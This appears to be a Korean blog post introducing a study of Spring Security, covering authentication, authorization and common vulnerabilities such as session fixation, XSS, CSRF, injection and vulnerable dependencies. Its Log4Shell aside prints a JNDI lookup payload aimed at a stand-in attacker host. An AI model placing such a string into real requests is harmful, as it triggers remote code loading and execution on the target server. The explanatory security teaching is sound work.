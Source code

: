 # Spring Security In Action

## 들어가며

훌륭한 애플리케이션을 개발하기 위해서는 비즈니스 문제를 명확히 해결하는 것뿐만 아니라, 애플리케이션이 원활히 동작하도록 도와주는 비기능적인 부분도 관심과 고려가 있어야 한다고 생각한다.

이런 비기능적인 측면 중 하나인 보안은 대부분의 애플리케이션에서 심도 있게 고려해야 할 부분이다.

스프링을 통해 개발한다면 스프링답게 보안처리를 도와주는 스프링 시큐리티라는 프레임워크가 있다.

이번 기회에 스프링 시큐리티 프레임워크에 대해 좀 더 깊게 알아가면서, 보안에 대해 좀 더 관심을 가지고, 안전한 애플리케이션을 만들 수 있도록 성장하고자 한다.

이번 글에서는 본격적으로 스프링 시큐리티를 알아보기 앞서 대략적인 보안 개념과 일반적으로 무엇으로부터 보호해야 할지에 대해 알아보려 한다.

\


## 소프트웨어 보안

현대의 소프트웨어는 민감한 정보를 데이터로 관리하기 때문에 애플리케이션은 그 정보가 의도되지 않은 사용자에게 접근되거나 변경 또는 가로채지 않게 처리해야 한다. 이것이 광범위하게 표현한 보안의 의미이다.

개인적으로 보안을 표현하기도 쉽고 개념적으로 가장 중요하다고 생각되는 것은 인증과 인가이다.

인증은 애플리케이션을 사용하려는 주체를 식별하는 프로세스를 뜻하며, 인가는 인증된 주체에게 어떤 기능이나 데이터에 권한이 있는지 체크하는 프로세스이다.

소프트웨어에서 보안은 가장 최상층인 애플리케이션 계층뿐 아니라 가상머신이나 네트워크 같은 하위계층에도 적용되고 신경 써야 한다. 우리가 알아볼 스프링 시큐리티는 애플리케이션 계층에서의 보안이다.

\


## 보안의 중요성

실제 개인정보가 유출되는 사례는 대중적으로도 이미 많이 알려져 있다. 보안에 대한 미비한 투자로 직접적인 금전적인 비용 손실, 브랜드의 이미지 실추, 심하게는 인명 피해까지 이어질 수 있다. 때문에 보안은 프로젝트 시작부터 고려해야 할 중요한 사항이다. 보안의 취약성을 예방하는 것이 공격받은 후 대처하는 것보다 비용이 적게 드는 것은 당연하다.

> 사실 보안 처리를 했다고 해도 모든 공격을 막아낼 순 없다. 만일 피해를 받은 상황에 대한 대응도 미리 준비해 피해를 최소화할 수 있는 것이 중요할 것 같다.\
>

## 일반적인 보안 취약성

공격자는 무턱대고 공격하기보단 취약성을 파악하고 집중 공격한다. 때문에 일반적으로 공격자가 어떤 취약성을 이용해 공격하는지 알고 있어야 한다.&#x20;



* 인증, 인가 취약성

의도되지 않은 사용자가 악의를 가지고 다른 사람의 기능이나 민감한 정보에 접근할 수 있다.

* 세션 고정

공격자가 이미 생성된 세션 ID를 재이용해서 유효한 사용자를 가장할 수 있다.

이 취약점은 기존 발급한 세션 ID가 고유하지 않거나 유효시간을 주지 않을 때 발생한다.

> 세션이란 각 클라이언트(브라우저)와의 연결을 구별하기 위해 서버에 상태를 저장하는 기술이다.



* XSS(교차 사이트 스크립팅 Cross Site Scripting)

공격자가 클라이언트 쪽에 악의적인 스크립트를 주입하면 서버가 이를 실행하게 되어 피해를 받을 수 있다.

XSS을 방어하는 방법의 핵심은 서버가 검증되지 않은 html 문자열을 그대로 사용하는 것이라고 생각한다. 서버가 브라우저에게 악의적인 script가 포함되어 있는 문자열을 전달하면 브라우저는 이를 실행하게 되어 문제를 일으킨다.

아래 링크의 문제를 풀면서 어떤 방식으로 공격하는지 이해해 보자.

[XSS game](https://xss-game.appspot.com/level1)



* CSRF(사이트 간 요청 위조)

어떤 유저가 공격할 사이트에 로그인된 상태에서 악성 스크립트가 포함된 페이지에 접속하도록 유도한다. 악성 스크립트는 로그인 정보가 있는 쿠키를 이용해 서버에 요청하기 때문에, 서버는 공격자의 요청을 정상적인 요청으로 인식하고 수행하게 된다.



* Injection

주입 공격은 광범위한 공격으로 앞서 말한 XSS, Xpath 주입, SQL 주입이 있다. SQL주입은 가장 오래되고 잘 알려진 주입 취약성으로 공격자는 다른 SQL 쿼리를 애플리케이션에 주입시키고 실행시키는 공격방법이다.



* 기밀 데이터 노출

가장 기초적이지만 흔한 실수 중 하나다. 중요한 데이터를 실제 소스코드에 입력한다면 코드를 볼 수 있는 모든 사람에게 노출이 되며, 버전관리에서는 변경 기록까지 남게 된다. 민감 데이터를 로그 남기거나 콘솔을 찍는 행위도 이에 해당한다. 에러 메시지 정보에 너무 많은 정보를 전달하는 것도 공격자에게 큰 힌트가 될 수 있으니 주의해야 한다.



* 취약성이 있는 종속성 이용

log4j 사태처럼 라이브러리나 프레임워크 같은 종속성 자체에 취약성이 있을 수 있다.

<details>

<summary>log4j 사태</summary>

Log4j는 자바 기반 로깅 라이브러리이다. java에는 JNDI라는 디렉터리를 통해 데이터를 찾을 수 있는 디렉터리 서비스가 있으며, 인터페이스 중 하나인 LDAP가 있다. 문제는 log4j가 특정 형식으로 로그를 남길 때도 JNDI를 수행할 수 있기 때문에 발생한다.

공격자는 타겟 서버 header에 ${jndi:ldap://attaker-server.com/a}의 문자열을 남기면, 타겟 서버는 로그 출력이 아니라 공격자 서버에 존재하는 자바 클래스 파일을 요청하고 실행하게 된다.

<img src="https://blog.kakaocdn.net/dn/caIrXV/btrWUHpXcS2/3Rw1slOH37ULc82r4gEwJK/img.png" alt="" data-size="original">



</details>

&#x20;

\


> [OWASP](https://owasp.org/)\
> 애플리케이션 개발 중 가장 일반적인 취약성을 소개하니 참고해 보자.

<figure><img src="https://blog.kakaocdn.net/dn/b4JRLO/btrWYMjJt7a/pev4UHZakksMm0KG7UBaf1/img.png" alt=""><figcaption></figcaption></figure>
